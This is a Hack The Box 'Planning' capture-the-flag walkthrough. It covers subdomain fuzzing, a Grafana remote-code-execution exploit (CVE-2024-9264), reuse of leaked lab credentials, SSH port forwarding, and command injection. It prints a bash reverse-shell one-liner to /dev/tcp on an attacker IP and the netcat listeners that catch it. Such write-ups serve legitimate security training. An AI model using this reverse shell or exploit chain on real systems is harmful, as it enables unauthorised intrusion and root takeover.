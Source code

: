 # 🧠 Hack The Box – Planning (Easy)

## 📌 Machine Info
- **Name:** Planning  
- **Difficulty:** Easy  
- **OS:** Linux  
- **IP Address:** 10.10.11.68  
- **Author:** Vishnu S  
- **Completed on:** July 6, 2025

---

## 🔍 Summary

The Planning machine involves:
- Virtual host enumeration  
- Exploiting Grafana (CVE-2024-9264)  
- Docker container escape  
- Privilege escalation via SSH port forwarding and command injection  

---

## 🛠 Tools Used
- `nmap` – Port scanning  
- `ffuf` – Subdomain enumeration  
- `python3` – Exploit execution  
- `netcat` – Reverse shell listener  
- `ssh` – Remote login & port forwarding  
- `linPEAS` – Privilege escalation enumeration  

---

## 🧾 Walkthrough

### 1️⃣ Initial Enumeration

```bash
nmap 10.10.11.68
````

![Nmap Scan](nmap-scan.png)

---

### 2️⃣ Virtual Host Setup

![Planning Web Page](planning.png)

Edited `/etc/hosts`:

```
10.10.11.68 planning.htb
```

---

### 3️⃣ Subdomain Discovery

![FFUF Scan](fuff-scan.png)

```bash
ffuf -u http://planning.htb -H "Host:FUZZ.planning.htb" \
-w /usr/share/seclists/Discovery/DNS/namelist.txt -fs 178 -t 100
```

Discovered: `grafana.planning.htb`
Updated `/etc/hosts`:
![Updated Hosts](added-host1.png)
![Another Hosts Entry](added-host.png)

---

### 4️⃣ Grafana Exploitation (CVE-2024-9264)

Visited: `http://grafana.planning.htb`
![Grafana Login](grafana-login.png)
![Grafana Version](grafana-version.png)

**Credentials:**

```
Username: admin
Password: 0D5oT70Fq13EvB5r
```

Used exploit:
[https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)

Start listener:

```bash
nc -lvnp 9001
```

![Listener](listener.png)

Run exploit:

```bash
python3 poc.py --url http://grafana.planning.htb \
--username admin \
--password 0D5oT70Fq13EvB5r \
--reverse-ip 10.10.14.96 \
--reverse-port 9001
```

![Exploit Run](python-exploit.png)
![Exploited](exploited.png)

✅ Reverse shell obtained.

---

### 5️⃣ Docker Escape

```bash
env
```

Found:

```
Username: enzo
Password: RioTecRANDEntANT!
```

![Found Credentials](found-username-password.png)

SSH into host:

```bash
ssh enzo@10.10.11.68
```

![SSH Login](ssh.png)

```bash
cat /home/enzo/user.txt
```

![User Flag](userflag.png)

---

### 6️⃣ Privilege Escalation

Ran linpeas:

```bash
./linpeas.sh
```

Found crontab:

```bash
cat /opt/crontabs/crontab.db
```

![linPEAS Crontab](linpeas-crontab.png)
![Found Root Credentials](found-credentials.png)

Used:

```
Username: root
Password: P4ssw0rdS0pRi0T3c
```

Local port 8000 found:
![Local Port](port-locally.png)

SSH Port Forward:

```bash
ssh -L 8000:localhost:8000 enzo@planning.htb
```

![Port Forwarding](port-forwarding.png)
Visited: `http://localhost:8000`
![Visited 8000](visited8000.png)

Injected shell:

```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.96/8888 <&1'
```

![Shell Injected](injected.png)

Started listener:

```bash
nc -lvnp 8888
```

![Listener for Root](setup-listener.png)
![Got Root Shell](gained-rootshell.png)

---

## 🏁 Flags Captured

```bash
cat /home/enzo/user.txt
cat /root/root.txt
```

![User Flag](user-flag.png)
![Root Flag](root-flag.png)

---

## ✅ Conclusion

This machine demonstrated a full attack chain:

* Default credentials in Grafana
* Docker environment variable leaks
* Misconfigured internal services
* Port forwarding + command injection

Great for practicing real-world exploitation chains!

---

## 🔗 References

* [CVE-2024-9264 – Grafana RCE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-9264)
* [Exploit Script](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)
* [HackTricks](https://book.hacktricks.xyz/)
* [Medium Write-up](https://medium.com/@ypopova3/planning-hackthebox-fd3d5fcb8fc7)

---


